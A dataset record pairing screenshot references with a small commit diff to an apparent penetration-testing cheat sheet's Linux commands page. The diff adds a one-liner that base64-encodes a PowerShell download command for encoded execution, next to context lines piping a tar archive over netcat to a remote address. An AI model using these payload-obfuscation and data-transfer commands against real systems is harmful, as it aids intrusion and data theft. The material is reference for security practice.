

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Useful_Commands/Linux.md, in a window 1280 px wide and 900 px high, scrolled down 4283 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update Linux.md

````diff
--- a/docs/Useful_Commands/Linux.md
+++ b/docs/Useful_Commands/Linux.md
@@ -165,6 +165,11 @@ tar cvf - . | xz -c | nc 192.168.0.1 9999
 ```bash
 iconv -f ASCII -t UTF-16LE powershell_payload.txt | base64 | tr -d "\n"
 ```
+* Another way below but prioritize above
+```bash
+echo -n 'Invoke-WebRequest -Uri "http://www.contoso.com" -OutFile "C:\path\file"' | iconv -f UTF8 -t UTF16LE | base64 -w 0
+# Remove the % character at the end
+```
 
 ## Rsync
 * Similar to SCP but better overall especially long term[^8]
````
